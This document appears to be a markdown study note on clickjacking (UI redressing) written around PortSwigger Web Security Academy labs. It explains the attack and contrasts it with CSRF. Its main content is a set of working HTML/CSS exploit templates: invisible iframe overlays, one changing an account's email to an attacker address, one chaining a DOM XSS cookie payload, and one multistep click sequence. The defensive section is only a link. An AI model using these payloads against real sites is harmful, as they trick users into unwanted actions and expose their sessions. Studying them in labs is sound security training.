 # Clickjacking (UI redressing)

![](/DK9510/Img/blob/main/ClickJacking.png)

## clickJacking
- it is an interface based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.
- `Example: `
- A web user access a decoy website (i.e link provided by `phishing mail`) and click on a button to win a prize.
- unknowingly, they have been deceived by an attacker into pressing an alternative hidden button and this result in `payment to the attacker or any thing like purchasing subscription to attacker etc`.
- this is example of `clickjacking attack`
- the technique is depend on the `actionable and invisible webpage`
- `Note:` this attack is different from the `CSRF` because in `CSRF we do unintentionable action without user's knowledge and intraction` while in `Clickjacking` user need to click button which trigger hidden iframe or link to do certain tasks.
- Protection against CSRF attacks is often provided by the use of a `CSRF token` a session-specific, single-use number or nonce. `Clickjacking` attacks are not mitigated by the `CSRF token` as a target session is established with content loaded from an authentic website and with all requests happening on-domain. `CSRF tokens` are placed into requests and passed to the server as part of a normally behaved session. The difference compared to a normal user session is that the process occurs within a hidden iframe.

# how to construct basic clickjacking attack
- it use CSS to create and manipulate layers 
- `Example: `
```js
<head>  
  <style>  
    #target_website {  
      position:relative;  
      width:128px;  
      height:128px;  
      opacity:0.00001;  
      z-index:2;  
      }  
    #decoy_website {  
      position:absolute;  
      width:300px;  
      height:400px;  
      z-index:1;  
      }  
  </style>  
</head>  
...  
<body>  
  <div id="decoy_website">  
  ...decoy web content here...  
  </div>  
  <iframe id="target_website" src="https://vulnerable-website.com">  
  </iframe>  
</body>
```

adjust buttons to the iframe button and send to victim

another exploit 
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.000001;
       z-index: 2;
   }
   div {
       position:absolute;
       top: 450px;
       left: 80px;
       z-index: 1;
   }
</style>
<div>Click</div>
<iframe sandbox="allow-forms" src="https://ac541f881fc916be80be6fa300d3000a.web-security-academy.net/my-account/?email=hacker@attacker-website.com"></iframe>
```

## Combining Clickjacking with DOM XSS attack
exploit
```js
<style>  
   iframe {  
       position:relative;  
       width:700;  
       height: 500;  
       opacity: 0.00001;  
       z-index: 2;  
   }  
   div {  
       position:absolute;  
       top:410;  
       left:80;  
       z-index: 1;  
   }  
</style>  
<div>Test me</div>  
<iframe  
src="$url?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep Clickjacking
- Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes. Such attacks require considerable precision and care from the attacker perspective if they are to be effective and stealthy.
```js
<style>
   iframe {
       position:relative;
       width:700px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:450px;
       left:55px;
       z-index: 1;
   }
   .secondClick {
       top:535px;
       left:55px;
   }
</style>
<div class="firstClick">Click me First</div>
<div class="secondClick">Click me next</div>
<iframe src="https://ac7a1fcf1f6afc5080da19c4004e0043.web-security-academy.net/my-account/"></iframe>
```

## Protecting Against ClickJacking 
### [portswigger-web-security](https://portswigger.net/web-security/clickjacking)
